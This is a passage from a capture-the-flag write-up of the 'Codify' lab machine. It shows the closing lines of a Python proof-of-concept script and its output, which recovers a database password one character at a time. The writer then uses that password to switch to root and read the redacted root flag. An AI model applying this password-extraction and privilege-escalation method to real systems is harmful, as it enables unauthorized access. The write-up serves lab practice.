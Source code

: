 ```python
print(f"[+] The Final Database Password is:{db_password}")
print("=" * 50)

```

Executing the PoC
```bash
joshua@codify:~$ python3 PoC.py
[*] Cracking Password:k
[*] Cracking Password:kl
[*] Cracking Password:klj
[*] Cracking Password:kljh
[*] Cracking Password:kljh1
[*] Cracking Password:kljh12
[*] Cracking Password:kljh12k
[*] Cracking Password:kljh12k3
[*] Cracking Password:kljh12k3j
[*] Cracking Password:kljh12k3jh
[*] Cracking Password:kljh12k3jha
[*] Cracking Password:kljh12k3jhas
[*] Cracking Password:kljh12k3jhask
[*] Cracking Password:kljh12k3jhaskj
[*] Cracking Password:kljh12k3jhaskjh
[*] Cracking Password:kljh12k3jhaskjh1
[*] Cracking Password:kljh12k3jhaskjh12
[*] Cracking Password:kljh12k3jhaskjh12k
[*] Cracking Password:kljh12k3jhaskjh12kj
[*] Cracking Password:kljh12k3jhaskjh12kjh
[*] Cracking Password:kljh12k3jhaskjh12kjh3
==================================================
[+] The Final Database Password is:kljh12k3jhaskjh12kjh3
==================================================
```

Switching to Root
```bash
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# ll /root
total 40
drwx------  5 root root 4096 Dec 25 22:13 ./
drwxr-xr-x 18 root root 4096 Oct 31 07:57 ../
lrwxrwxrwx  1 root root    9 Sep 14 03:26 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
-rw-r--r--  1 root root   22 May  8  2023 .creds
drwxr-xr-x  3 root root 4096 Sep 26 09:35 .local/
lrwxrwxrwx  1 root root    9 Sep 14 03:34 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Dec 25 22:13 root.txt
drwxr-xr-x  4 root root 4096 Sep 12 16:56 scripts/
drwx------  2 root root 4096 Sep 14 03:31 .ssh/
-rw-r--r--  1 root root   39 Sep 14 03:26 .vimrc
root@codify:/home/joshua# cat /root/root.txt
#* * * ALERT * * * * * * * * * * * * * * * * 
#* If you really want to see this flag, go * 
#* to FLAG CODES at the bottom of the page *
#* * * * * * * * * * * * * * * * * * * * * *
```
